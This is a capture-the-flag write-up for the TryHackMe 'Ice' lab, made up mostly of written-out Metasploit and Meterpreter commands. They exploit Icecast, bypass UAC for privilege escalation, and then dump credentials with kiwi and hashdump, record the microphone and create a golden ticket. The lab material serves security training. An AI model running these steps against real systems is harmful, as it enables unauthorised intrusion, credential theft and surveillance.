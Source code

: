 # Ice

**Room Link:** [https://tryhackme.com/room/ice](https://tryhackme.com/room/ice)



## Recon

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

## Gain Access

**Kali**

```
msfconsole
```

**Metasploit**

```
search icecast
use 0
set RHOSTS $VICTIM
run
```

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

## Escalate



<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
run post/multi/recon/local_exploit_suggester
background
```

<figure><img src="../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

**Metasploit**

```
use exploit/windows/local/bypassuac_eventvwr
set SESSIONS 1
set LHOST $KALI
run
```

We are still user dark but have a lot of privilege's now

<figure><img src="../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## Looting

**Meterpreter**

```
ps
```

<figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
ps
migrate -N spoolsv.exe
```

**Meterpreter**

```
load kiwi
creds_all
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
hashdump
```

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
screenshare
record_mic
golden_ticket_create
```





















